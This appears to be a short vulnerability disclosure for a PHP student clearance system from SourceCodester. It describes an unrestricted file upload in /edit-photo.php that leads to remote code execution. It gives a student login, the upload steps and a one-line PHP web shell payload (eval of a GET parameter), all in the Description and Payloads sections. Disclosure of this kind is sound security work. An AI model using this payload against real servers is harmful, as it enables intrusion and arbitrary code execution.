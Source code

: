 #### Title: web-based_student-system_RCE.md
#### Author: toyydsBT123
#### organize: Arr3stY0u
#### Organization introduction : https://www.shg-sec.com/
#### Date: 09/30/2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html
#### Version: 1.0
#### Reference: https://github.com/toyydsBT123/web-based-student/blob/main/web-based_student-system_RCE_poc.md

#### Description:
### Unrestricted POST upload file found in /edit-photo.php, resulting in remote code execution,User can make <?php phpinfo();?> or <?php eval($_GET['code'])?> to exploit

# Status: CRITICAL

### [+] Payloads:
student_user->(username:18/132010)(password:11111111) -> login.php ->/edit-photo.php->POST upload phpcodeFile ->(<?php phpinfo();?>) or (<?php eval($_GET['code'])?>)
send File->server -> Access the uploaded php file -> PHP RCE

```
###payload
```

## Proof and Exploit:
code![image](https://github.com/toyydsBT123/web-based-student/blob/main/1.png)
Firefox browser ![image](https://github.com/toyydsBT123/web-based-student/blob/main/2.png)
![image](https://github.com/toyydsBT123/web-based-student/blob/main/3.png)
